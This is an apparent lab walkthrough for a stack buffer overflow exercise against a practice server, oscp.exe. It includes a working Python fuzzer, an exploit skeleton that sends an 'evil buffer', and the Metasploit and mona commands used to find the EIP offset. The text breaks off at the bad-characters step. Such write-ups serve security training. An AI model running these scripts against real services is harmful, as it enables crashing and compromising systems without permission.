 


---

1. Mona Configuration

- The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:

    - `!mona config -set workingfolder c:\mona\%p`

---

2. Fuzzing

    - The fuzzer will send increasingly long strings comprised of `A`. 
    
    - If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. 
    
    - Make a note of the largest number of bytes that were sent.

- `python_fuzzing.py` (chmod +x)

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.56.134"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

- `python3_fuzzer.py`

---

3. Crash Replication & Controlling EIP

- Run the following command to generate a cyclic pattern of a length `400 bytes` longer ([Ax100,Ax100]:200+400) that the string that crashed the server (change the -l value to this):

    - `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600` 

- Copy the output and place it into the payload variable of the `exploit.py` script. 

- Create:

    - `python_exploit.py` (chmod +x)

```
import socket

ip = "10.10.56.134"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

- The script should crash the `oscp.exe` server again. 

- This time, in `Immunity Debugger`, in the **command input box at the bottom of the screen**, run the following **mona command**, changing the distance to the same length as the pattern you created:

    - `!mona findmsp -distance 600`
    
- Mona should display a log window with the output of the command. 

    - If not, click the `Window` menu and then `Log data` to view it (choose "CPU" to switch back to the standard view).

- In this output you should see a line which states:

    - `EIP contains normal pattern : ... (offset XXXX)` 
    
1. Update your `exploit.py` script and set the `offset` variable to this value **(was previously set to 0)**. 

2. Set the `payload` variable to an **empty string again**. 

3. Set the `retn` variable to `BBBB`.

4. Restart `oscp.exe` in `Immunity Debugger` and run the modified `python_exploit.py` script again. 

    - The `EIP` register should now be overwritten with the 4 B's **(BBBB)** `42424242`. 

---  

4. Finding Bad Characters
